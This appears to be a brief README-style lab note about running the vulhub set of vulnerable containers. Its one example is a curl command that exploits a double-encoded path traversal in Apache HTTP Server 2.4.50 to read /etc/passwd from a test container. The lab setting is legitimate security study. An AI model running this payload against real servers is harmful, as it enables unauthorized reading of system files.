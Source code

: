 **Vulnerable container List**
https://github.com/vulhub/vulhub
We tried to run these containers and execute vulnerabilities
As an example Apache HTTP Server 2.4.50 container have vulnerability  where you can see the folders you not access to:
by running this code
```
curl -v --path-as-is http://your-ip:8080/icons/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/etc/passwd
```
![enter image description here](https://github.com/vulhub/vulhub/raw/master/httpd/CVE-2021-42013/1.png)
